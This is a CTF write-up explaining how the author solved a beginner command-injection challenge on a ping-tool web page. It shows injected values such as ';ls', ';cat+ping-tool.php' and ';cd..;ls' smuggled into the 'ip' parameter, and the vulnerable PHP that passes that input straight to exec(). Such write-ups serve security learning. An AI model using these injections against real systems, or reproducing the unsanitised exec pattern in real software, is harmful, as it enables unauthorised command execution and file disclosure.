 Title: RyanCTF Input Validation
Date: 2018-7-27 10:01
Modified: 2018-7-27 10:01
Category: ctf
Tags: ctf
Slug: ryanCTF_inputValidation
Authors: F3real
Summary: How to solve RyanCTF Input Validation

Ryan CTF is nicely organized beginner CTF located at [http://ctf.ryanic.com/](http://ctf.ryanic.com/). Challenges are pretty interesting, with only thing I disliked being that they are played through web shell. So let’s start:

**(Ab)use the ping-tool.html page on the web server [http://ctf.ryanic.com:8080](http://ctf.ryanic.com:8080) to find the flag within the Flag.txt file.**

When we open the site, we see just a simple form asking us for IP we want to ping. Parameters are passed in GET request so if we wanted to ping google DNS our URL would look like

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8```

Now one of basic things (as hinted by challenge name) is to test command injection which we can do by adding ;ls and checking the results:
```
ING 8.8.8.8 (8.8.8.8) 56(84) bytes of data. 
64 bytes from 8.8.8.8: icmp_seq=1 ttl=51 time=1.08 ms 
64 bytes from 8.8.8.8: icmp_seq=2 ttl=51 time=0.493 ms 
64 bytes from 8.8.8.8: icmp_seq=3 ttl=51 time=0.399 ms 
64 bytes from 8.8.8.8: icmp_seq=4 ttl=51 time=0.418 ms 
 
--- 8.8.8.8 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3042ms 
rtt min/avg/max/mdev = 0.399/0.598/1.085/0.284 ms 
index.php 
logo.png 
ping-tool.html 
ping-tool.php 
secret.html 
test.txt 
x.txt
```

Now for fun we can also leak the code of this .php script running on the server with

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8;cat+ping-tool.php```

Here it is just important to note that we need to URL encode parameters so for example in case above `space` is replaced by `+` .

And we get:
~~~php
<?
$out = array();
exec("ping -c 4 " . $_GET["ip"], $out);
foreach($out as $line) {
echo "$line
";
}
?> 
~~~

Now for remaining part, we need to find flag. We can do this just trough browser but also we can do it through **burp**, to make it easier and it is good tool to know.

We need to capture one of request we send to server and forward it to repeater, in this way we can quickly modify parameters of request and URL encode them. For this we just need to start burp, turn the intercept on and set browser to use proxy (in case of burp `localhost` on the port `8080` by default).

First I tried running find for flag, which failed for some reason so I decided to simply check directories bellow our current one.

![ping ls]({static}/images/2018_7_27_Ping.png){: .img-fluid .centerimage}


Parameters of request if URL decoded are simply `;cd..;ls`. And it seems we were in luck since Flag.txt is just one sub-directory bellow. We simply `cat Flag.txt` and that’s it.

`Flag: pluripresence`